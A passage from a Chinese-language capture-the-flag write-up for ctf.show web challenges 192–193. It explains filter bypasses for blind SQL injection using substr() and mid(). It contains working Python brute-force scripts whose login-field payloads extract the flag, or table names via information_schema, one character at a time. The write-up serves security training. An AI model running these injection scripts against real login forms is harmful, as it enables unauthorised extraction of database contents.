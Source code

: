 ```python
            break
```

```sql
mysql> select ascii('1');
ascii('1') 
49 

mysql> select ord('1');
ord('1')
 49 
```

## web 192

禁用了ord,hex函数，换成直接substr()函数跑字符

前面没有介绍，这里介绍一下

:::tip
SUBSTR(string, start, length)，每次改变start的位置，length设为1，可以到达每次截取一个字符串的目的进行比较，爆破出字段值
:::

```python
import requests
import string
url="http://4db5cb12-5119-4ebd-9443-800e9ed3cdd0.challenge.ctf.show/api/"
s=string.ascii_lowercase+string.digits+'{'+'}'+'-'
flag=''

for i in range(1,45):
    for j in s:
    
        data={
            'username':f"'||if((substr((select f1ag from ctfshow_fl0g),{i},1))='{j}',1,0)#",
            'password':'1'
        }
        r=requests.post(url,data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in r.text):
            flag+=j  
            print(flag)
            break
```


## web 193

禁用了substr函数，可以使用mid()函数

:::tip
MID(string,start,length)函数，功能类似substr函数，用它来每次截取一个，爆破字段值
:::

```python
import requests
import string
url="http://70fd0050-11ec-4c26-8e1e-5c9ef88ab8b7.challenge.ctf.show/api/"
s=string.ascii_lowercase+string.digits+'{'+'}'+'-'
flag=''

for i in range(1,46):
    for j in s:
                #跑表名
        # data={
        #     'username':f"'||if((mid((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))='{j}',1,0)#",
        #     'password':'1'
```